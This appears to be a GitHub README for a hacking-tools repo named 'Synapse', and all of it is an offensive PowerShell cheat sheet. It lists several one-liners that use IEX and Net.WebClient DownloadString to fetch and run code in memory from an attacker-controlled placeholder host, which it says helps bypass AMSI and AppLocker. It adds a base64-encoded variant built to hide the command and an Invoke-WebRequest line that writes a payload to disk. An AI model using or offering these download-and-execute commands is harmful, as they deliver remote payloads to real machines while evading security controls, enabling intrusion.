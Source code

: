 # Synapse

> Repo for {Hacking Tools}

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
`powershell -c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
`C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe c IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
### encoded 
`echo powershell -EncodedCommand $(echo -n "IEX (New-Object Net.WebClient).DownloadString('http://$LHOST:$PORT/$FILE')" | iconv  -t UTF-16LE | base64 -w0)`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
